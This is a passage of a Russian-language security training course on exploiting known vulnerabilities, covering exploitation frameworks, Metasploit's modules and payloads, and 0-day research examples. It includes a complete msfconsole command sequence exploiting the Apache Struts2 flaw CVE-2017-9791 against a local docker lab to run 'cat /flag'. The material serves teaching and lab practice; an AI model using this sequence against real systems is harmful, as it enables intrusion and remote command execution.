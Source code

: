 ### 6.2 Эксплуатация уязвимостей 1-го дня в сетевых сервисах

Обратим свое внимание на этап эксплуатации уязвимостей.

Зачастую для эксплуатации уязвимостей используются либо отдельные эксплойты, созданные специально под конкретную
уязвимость. Либо используются фреймворки эксплуатации, которые разработаны для унификации подготовки, настройки и
тестирования эксплойтов.

Популярные фреймворки эксплуатации:

- Metasploit Framework (Free): https://www.metasploit.com/
- CobaltStrike ($$$): https://www.cobaltstrike.com/
- Exploit Pack ($$$): http://exploitpack.com/
- Core Impact Pro ($$$): https://www.coresecurity.com/products/core-impact

#### Работа с фреймворком Metasploit входит в список основных навыков для хакеров.

Рассмотрим возможности Metasploit подробнее.

##### Metasploit Framework

Современная версия Metasploit содержит более 2000 эксплойтов, более 1000 модулей разведки и сканирования, модули пост
эксплуатации, нагрузки, кодировщики, средства противодействия обнаружению и пр.

##### Эксплойты

В настоящее время в Metasploit насчитывается более 2000 эксплойтов, сгруппированных по следующим платформам: AIX,
Android, BSD, BSDi, Cisco, Firefox, FreeBSD, HP-UX, Irix, Java, JavaScript, Linux, mainframe, multi (применимо к
нескольким платформам), NetBSD, NetWare, nodejs, OpenBSD, macOS, PHP, Python, R, Ruby, Solaris, Unix и Windows.

##### Полезная нагрузка

В настоящее время Metasploit имеет более 600 полезных нагрузок:

- Командная оболочка позволяет пользователям запускать скрипты сбора данных или выполнять произвольные команды на хосте.
- Meterpreter (интерпретатор Metasploit) позволяет пользователям контролировать экран устройства с помощью VNC, а также
  просматривать, загружать и скачивать файлы.
- Динамические полезные нагрузки позволяют пользователям обходить антивирусную защиту, генерируя уникальные полезные
  нагрузки.
- Статические полезные нагрузки обеспечивают статическую переадресацию IP-адресов/портов для связи между хостом и
  клиентской системой.
- Вспомогательные модули

Metasploit Framework включает сотни вспомогательных модулей, которые могут выполнять сканирование, fuzzing, sniffing и
многое другое. Существует три типа вспомогательных модулей: сканеры, администраторы и серверные модули.

Настройка Metasploit из примера вначале
Команды настройки msfconsole для (CVE-2017-9791)(Команды bash):

```commandline
msfconsole <- Запуск фреймворка

search struts showcase  <- Поиск всех возможных эксплойтов с содержимым строки “struts showcase”

use exploit/multi/http/struts2_code_exec_showcase <- Выбор эксплойта для работы последующей настройки

info <- Изучение информации об эксплойте

options <- Демонстрация опций для настройки эксплойта

set RHOSTS localhost <- Настройка узла для применения эксплойта

set RPORT 1337 <- Настройка порта для применения эксплойта

set TARGETURI /integration/saveGangster.action <- Настройка места нахождения уязвимого плагина на сайте

set PAYLOAD cmd/unix/generic <- Настройка “нагрузки” исполняемой после применения эксплойта

set CMD 'cat /flag' <- Настройка опций нагрузки (Указание команды, которую необходимо выполнить)

check <- Использование “чекера” для проверки корректности настроенного эксплойта

exploit <- Эксплуатация уязвимости


Поднять стенд самостоятельно можно командой docker:

docker run -it --rm -p 1337:8080 --name struts piesecurity/apache-struts2-cve-2017-5638
```

### Уязвимости 0-го дня

Обычно поиск уязвимостей 0-го дня производят энтузиасты, которые в дальнейшем сообщают о найденных уязвимостях
производителям, чтобы те исправили проблемы безопасности.

Среди них можно выделить:

- Пентестеров
- Исследователей


Что может помочь в поиске?
- Анализ исходных кодов
- Динамический анализ
- Фаззинг тестирование

#### Известные случаи утечек уязвимостей 0-го дня:
**EternalBlue** — это компьютерный эксплойт, разработанный Агентством национальной безопасности США (АНБ). Утечка информации
о нем была осуществлена хакерской группой Shadow Brokers 14 апреля 2017 года, через месяц после того, как Microsoft
выпустила патчи для этой уязвимости.

Примеры исследований уязвимостей нулевого дня в публичных библиотеках:
https://imagetragick.com/ — ImageMagick, пакете, обычно используемом веб-службами для обработки изображений, в 2016 году
обнаружено множество уязвимостей. Многие из уязвимостей могут привести к удаленному выполнению кода (RCE) при обработке
изображений, отправленных пользователем.



https://github.com/neex/phuip-fpizdam — это эксплойт для ошибки в php-fpm (CVE-2019-11043). В определенных конфигурациях
nginx + php-fpm ошибка может быть вызвана извне. Это означает, что веб-пользователь может получить выполнение кода, если
у вас уязвимая конфигурация.



